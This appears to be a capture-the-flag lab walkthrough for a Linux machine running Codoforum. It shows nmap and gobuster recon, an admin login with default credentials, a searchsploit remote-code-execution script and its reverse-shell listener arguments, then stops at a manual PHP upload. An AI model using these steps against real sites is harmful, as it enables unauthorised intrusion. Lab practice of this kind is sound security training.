

# Recon

This machine has a Linux OS and is rated intermediate by the community.

Remember to make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.183.23  codo
```
## Nmap
```
nmap -p- --open -sC -sV exfiltrated.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.


The nmap scan discovered a web application
- Browse to `http://codo/` and we can see that the website is `Powered by Codoforum`

## Gobuster
```
gobuster dir -u codo/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt 
```

The gobuster scan found an admin panel at `/admin/`
- The default credentials `admin:admin` can be used to log in

## Searchsploit
```
searchsploit codoforum
```

Searchsploit returns a couple scripts, but the remote code execution python script looks the most interesting, download the script using:
```
searchsploit -m php/webapps/50978.py
```
- looking at this script shows the following URL location that allows for file upload

- when going to the URL in the browser, we are indeed able to upload an image file

# Exploitation
Let's run the script found from searchsploit. The format for the flags are shown below.
```
python3 exploit.py -t [target url] -u [username] -p [password] -i [listener ip] -n [listener port]
```


Unfortunately, the script does not run correctly and fails in uploading the script. We can manually upload a PHP script as shown by the output.

